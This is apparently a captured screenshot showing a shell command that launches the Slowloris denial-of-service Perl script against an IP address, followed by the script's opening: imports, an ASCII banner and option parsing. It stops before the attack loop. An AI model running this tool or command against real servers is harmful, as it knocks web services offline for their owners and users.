 + perl slowpl.pl -dns 10.11.49.49
```
#!/usr/bin/perl -w
use strict;
use IO::Socket::INET;
use IO::Socket::SSL;
use Getopt::Long;
use Config;

$SIG{'PIPE'} = 'IGNORE';    #Ignore broken pipe errors

print <<EOTEXT;
CCCCCCCCCCOOCCOOOOO888\@8\@8888OOOOCCOOO888888888\@\@\@\@\@\@\@\@\@8\@8\@\@\@\@888OOCooocccc::::
CCCCCCCCCCCCCCCOO888\@888888OOOCCCOOOO888888888888\@88888\@\@\@\@\@\@\@888\@8OOCCoococc:::
CCCCCCCCCCCCCCOO88\@\@888888OOOOOOOOOO8888888O88888888O8O8OOO8888\@88\@\@8OOCOOOCoc::
CCCCooooooCCCO88\@\@8\@88\@888OOOOOOO88888888888OOOOOOOOOOCCCCCOOOO888\@8888OOOCc::::
CooCoCoooCCCO8\@88\@8888888OOO888888888888888888OOOOCCCooooooooCCOOO8888888Cocooc:
ooooooCoCCC88\@88888\@888OO8888888888888888O8O8888OOCCCooooccccccCOOOO88\@888OCoccc
ooooCCOO8O888888888\@88O8OO88888OO888O8888OOOO88888OCocoococ::ccooCOO8O888888Cooo
oCCCCCCO8OOOCCCOO88\@88OOOOOO8888O888OOOOOCOO88888O8OOOCooCocc:::coCOOO888888OOCC
oCCCCCOOO88OCooCO88\@8OOOOOO88O888888OOCCCCoCOOO8888OOOOOOOCoc::::coCOOOO888O88OC
oCCCCOO88OOCCCCOO8\@\@8OOCOOOOO8888888OoocccccoCO8O8OO88OOOOOCc.:ccooCCOOOO88888OO
CCCOOOO88OOCCOOO8\@888OOCCoooCOO8888Ooc::...::coOO88888O888OOo:cocooCCCCOOOOOO88O
CCCOO88888OOCOO8\@\@888OCcc:::cCOO888Oc..... ....cCOOOOOOOOOOOc.:cooooCCCOOOOOOOOO
OOOOOO88888OOOO8\@8\@8Ooc:.:...cOO8O88c.      .  .coOOO888OOOOCoooooccoCOOOOOCOOOO
OOOOO888\@8\@88888888Oo:. .  ...cO888Oc..          :oOOOOOOOOOCCoocooCoCoCOOOOOOOO
COOO888\@88888888888Oo:.       .O8888C:  .oCOo.  ...cCCCOOOoooooocccooooooooCCCOO
CCCCOO888888O888888Oo. .o8Oo. .cO88Oo:       :. .:..ccoCCCooCooccooccccoooooCCCC
coooCCO8\@88OO8O888Oo:::... ..  :cO8Oc. . .....  :.  .:ccCoooooccoooocccccooooCCC
:ccooooCO888OOOO8OOc..:...::. .co8\@8Coc::..  ....  ..:cooCooooccccc::::ccooCCooC
.:::coocccoO8OOOOOOC:..::....coCO8\@8OOCCOc:...  ....:ccoooocccc:::::::::cooooooC
....::::ccccoCCOOOOOCc......:oCO8\@8\@88OCCCoccccc::c::.:oCcc:::cccc:..::::coooooo
.......::::::::cCCCCCCoocc:cO888\@8888OOOOCOOOCoocc::.:cocc::cc:::...:::coocccccc
...........:::..:coCCCCCCCO88OOOO8OOOCCooCCCooccc::::ccc::::::.......:ccocccc:co
.............::....:oCCoooooCOOCCOCCCoccococc:::::coc::::....... ...:::cccc:cooo
 ..... ............. .coocoooCCoco:::ccccccc:::ccc::..........  ....:::cc::::coC
   .  . ...    .... ..  .:cccoCooc:..  ::cccc:::c:.. ......... ......::::c:cccco
  .  .. ... ..    .. ..   ..:...:cooc::cccccc:.....  .........  .....:::::ccoocc
       .   .         .. ..::cccc:.::ccoocc:. ........... ..  . ..:::.:::::::ccco
 Welcome to Slowloris - the low bandwidth, yet greedy and poisonous HTTP client
EOTEXT

my ( $host, $port, $sendhost, $shost, $test, $version, $timeout, $connections );
my ( $cache, $httpready, $method, $ssl, $rand, $tcpto );
my $result = GetOptions(
    'shost=s'   => \$shost,
    'dns=s'     => \$host,
    'httpready' => \$httpready,
    'num=i'     => \$connections,
    'cache'     => \$cache,
    'port=i'    => \$port,
    'https'     => \$ssl,
    'tcpto=i'   => \$tcpto,
    'test'      => \$test,
    'timeout=i' => \$timeout,
    'version'   => \$version,
);

if ($version) {
    print "Version 0.7\n";
    exit;
}

unless ($host) {
```